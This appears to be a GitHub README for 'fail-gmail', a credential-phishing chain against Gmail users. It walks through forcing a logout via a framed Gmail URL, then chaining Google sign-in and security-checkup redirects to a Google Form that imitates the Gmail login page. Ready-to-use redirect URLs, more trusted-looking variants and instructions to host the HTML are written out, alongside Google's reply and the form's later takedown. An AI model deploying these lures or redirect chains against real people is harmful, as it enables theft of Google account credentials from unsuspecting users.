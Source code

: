 
# fail-gmail

**Fail Gmail Bug in Gmail**
Social engineering? Not really 

![enter image description here](https://preview.ibb.co/b4CrAz/153490985371618984.jpg)

1.  X-Frame-Options (allows to iframe next url) 

2.  ( forces to logout)  https://mail.google.com/mail/u/0/?ui=&ik=64411c67&jsver=UpvwBf_7018.ru.&view=om&th=15fa48c10f45e439

3. After we make death we make Redirection to auth into google account which makes redirection to google form which does not ask for permission
https://accounts.google.com/signin/v2/sl/pwd?service=wise&passive=1209600&continue=https://docs.google.com/forms/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform#?gmail.com&followup=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin


4. https://docs.google.com/forms/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform google form which looks very simmilar to gmail login page

***Scenario attack: ->*** 
*Browser/OS: Chrome/Firefox . Windows, Linux.Feel free to rewrite it for mobile Chrome and Safari.*

**Google answer:**
![enter image description here](https://s22.postimg.cc/vo0zthp5t/2018-08-22_6.44.50.png)

**Usage**: upload html to your hosting, navigate and you will be able to understand how this works.

**Youtube video**:
https://www.youtube.com/watch?v=AmDzPgR5ZfU

**Additions**:

Alternative, redirect with more trust

https://myaccount.google.com/security-checkup?continue=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin

OR make it look even more dangerous.

https://accounts.google.com/signin/v2/sl/pwd?service=wise&passive=1209600&continue=https://myaccount.google.com/security-checkup?continue=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin


UPDATE:

https://accounts.google.com/signin/v2/sl/pwd?service=wise&passive=1209600&continue=https://myaccount.google.com/security-checkup?continue=https://docs.google.com/forms/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin

02.05.2019
Mr.Google says:

https://docs.google.com/forms/u/0/d/e/1FAIpQLSeScP-SSRCuHdJcXJ_ajX9opBbbQQVxdlDzZNf2PTlPK0Yr_Q/viewform?pli=1#?gmail.com&followup=https%3A%2F%2Fdocs.google.com%2Fforms%2Fd%2F1zTt-nSYom-9sIEFeKW1QMHfdMDx6PwYzbKpkmKmmf2k%2Fedit%3Fusp%3Dsharing#https://gmail.com&ltmpl=forms&flowName=GlifWebSignIn&flowEntry=ServiceLogin

We're sorry. You can't access this item because it is in violation of our Terms of Service.

Sure he will,but WHAT about support answer, LOL. Failed
